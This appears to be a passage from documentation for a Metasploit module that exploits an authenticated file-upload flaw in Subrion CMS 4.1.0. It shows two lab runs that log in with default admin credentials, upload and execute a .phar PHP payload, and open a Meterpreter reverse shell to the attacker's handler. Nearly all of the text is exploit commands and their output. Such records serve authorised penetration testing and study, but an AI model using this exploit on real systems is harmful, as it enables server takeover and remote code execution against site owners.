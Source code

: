 ```
[*] Logging in to Subrion Admin Panel at: http://192.168.245.138:8080/panel/ using credentials admin:admin
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.245.138:8080/uploads/zftofixpwb.phar
[*] Executing 'zftofixpwb.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.138
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.138:56994) at 2023-07-30 01:56:57 -0400
[+] Successfully executed payload: http://192.168.245.138:8080/uploads/zftofixpwb.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 986c4ddc755b
OS          : Linux 986c4ddc755b 4.19.0-25-amd64 #1 SMP Debian 4.19.289-1 (2023-07-24) x86_64
Meterpreter : php/linux
meterpreter >
```

### Subrion CMS v4.1.0 with Docker on Windows 10

* Using PHP payload - default TARGET 0

```
msf > use exploit/multi/http/subrion_cms_file_upload_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf exploit(multi/http/subrion_cms_file_upload_rce) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => eth0
msf exploit(multi/http/subrion_cms_file_upload_rce) > set PASSWORD 123456
PASSWORD => 123456
msf exploit(multi/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.29.1:8080/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.1.0.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: 3e1ab07d6802525ce76747c40f117961
[*] Logging in to Subrion Admin Panel at: http://192.168.29.1:8080/panel/ using credentials admin:123456
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.29.1:8080/uploads/dckfdvdmrr.phar
[*] Executing 'dckfdvdmrr.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:50985) at 2023-07-30 04:13:51 -0400
[+] Successfully executed payload: http://192.168.29.1:8080/uploads/dckfdvdmrr.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 3514d9412b2d
```
